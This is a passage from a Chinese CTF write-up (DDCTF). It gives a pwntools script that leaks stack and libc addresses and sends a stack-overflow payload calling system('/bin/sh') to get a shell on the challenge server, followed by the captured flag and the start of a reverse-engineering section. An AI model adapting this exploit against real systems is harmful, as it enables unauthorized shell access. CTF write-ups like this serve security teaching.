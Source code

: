 ```python
from pwn import *

elf = ELF("./xpwn")
context.log_level = "debug"

p = remote("116.85.48.105","5005")
libc = ELF("./libc.so.6")

p.recvuntil("username: ")
payload = 10 * "aaaa"
p.send(payload)
stack_addr = u32(p.recvuntil("\xff")[-4:])
p.recvuntil("\xf7")
leak = u32(p.recvuntil("\xf7")[-4:])
libc.address = leak - libc.symbols['_IO_2_1_stdout_']
system = libc.symbols['system']
# binsh = next(libc.search("/bin/sh"))

p.recvuntil("password: ")
p.sendline("-1")
p.recvuntil("): ")
main = 0x804862d
payload = p32(system)
payload += p32(main)
# payload += p32(binsh)
payload += p32(stack_addr - 0x4c + 12)
payload += "/bin/sh\x00"
payload = payload.ljust(0x4c - 0x8 , "a")
payload += p32(stack_addr - 0x4c + 4)
payload += "aaaa"
payload += p32(stack_addr - 0x4c + 4)

p.send(payload)
p.interactive()	
```

flag如下：

```
[*] Switching to interactive mode
All done, bye!
$ cat flag
DDCTF{s0_3asy_St4ck0verfl0w_r1ght?}
```

# RE

## RE1

本题相当简单，是RE的签到题，就是一个字符匹配，写脚本迭代即可。直接upx脱壳。
